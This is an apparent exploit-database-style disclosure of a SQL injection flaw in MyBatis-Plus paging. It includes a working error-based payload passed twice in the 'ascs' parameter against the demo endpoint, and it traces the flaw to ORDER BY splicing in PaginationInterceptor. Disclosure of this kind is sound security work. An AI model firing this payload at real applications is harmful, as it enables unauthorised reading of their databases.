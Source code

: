 # Exploit Title:
SQL injection vulnerability exists in Mybatis-Plus

# Description:
MyBatis-Plus is an powerful enhanced toolkit of MyBatis for simplify development. This toolkit provides some efficient, useful, out-of-the-box features for MyBatis, use it can effectively save your development time. It is very popular among Chinese software developers, Github Star 10.9k.

# Date:
2021-04-22

# Exploit Author:
kw0ng

# Vendor Homepage: 
https://baomidou.com/
https://mybatis.plus/
https://github.com/baomidou/mybatis-plus

# Software Link: 
https://github.com/baomidou/mybatis-plus/releases

# Version: 
All versions

# Tested on:
Mac OS 11.2.3
Windows 10

# POC:
?ascs=extractvalue(1,concat(char(126),md5(123)))&ascs=1

Use the paging Demo code officially provided by Mybatis-Plus, and the database uses Mysql, The Demo code can be seen in this project, use Idea to open it to run.
The paging principle of Mybatis-Plus is to intercept the SQL generated by Mybatis, splicing ORDER BY / LIMIT and other statements, and these statements are derived from the Page entity passed in by the user, if you use the paging controller, you must substitute the Page entity. 

1. Access Demo code selectPage interface

http://127.0.0.1:8081/user/selectPage

![image](https://user-images.githubusercontent.com/40931609/115806523-80faf480-a419-11eb-908e-035d5a9c3603.png)

2. Use the sql injection payload

http://127.0.0.1:8081/user/selectPage?ascs=extractvalue(1,concat(char(126),md5(123)))&ascs=1

![image](https://user-images.githubusercontent.com/40931609/115806581-9f60f000-a419-11eb-81ee-1d6c85c3e3d6.png)

3. debugging 

com/baomidou/mybatisplus/extension/plugins/pagination/Page.java
line 255
![image](https://user-images.githubusercontent.com/40931609/115806724-e222c800-a419-11eb-844c-54c0ba8b5434.png)

The ascs is a List<String> parameter,if you only send one ascs parameter, you can see that springMVC will divide the ascs parameter into 3 parts with commas, which will cause the subsequent SQL splicing statement syntax error:

![image](https://user-images.githubusercontent.com/40931609/115806838-17c7b100-a41a-11eb-84ce-aa5539812647.png)

But, If we use two ascs parameters, Ascs parameters will not be split :

![image](https://user-images.githubusercontent.com/40931609/115806902-2f9f3500-a41a-11eb-93c3-6f0643626e64.png)

View Page Pagination Blocker:

com/baomidou/mybatisplus/extension/plugins/PaginationInterceptor.java

line 127:
![image](https://user-images.githubusercontent.com/40931609/115807179-accaaa00-a41a-11eb-9bd9-d127bec25c28.png)

This interceptor will intercept the SQL statement generated by Mybatis and splice the ascs parameters we passed in to ORDER BY to generate the final SQL statement.

Main vulnerability code:

```
com/baomidou/mybatisplus/extension/plugins/PaginationInterceptor.java
line 126:
plainSelect.setOrderByElements(orderByElementsReturn);
line 127:
return plainSelect.toString();
```

orderByElementsReturn is the ascs array we passed in, plainSelect is the original sql statement in mybatis, here first set orderByElementsReturn to the properties of plainSelect, and then rewrite the toString method.

Add the ascs to the ORDER BY string and append to the original sql:
jsqlparser-4.0.jar!/net/sf/jsqlparser/statement/select/PlainSelect.class
line 387:
![image](https://user-images.githubusercontent.com/40931609/115807705-b7397380-a41b-11eb-8cea-119260abde96.png)

orderByToString:
jsqlparser-4.0.jar!/net/sf/jsqlparser/statement/select/PlainSelect.class
line 437:
![image](https://user-images.githubusercontent.com/40931609/115807804-df28d700-a41b-11eb-8c11-eafd3dffd4ef.png)

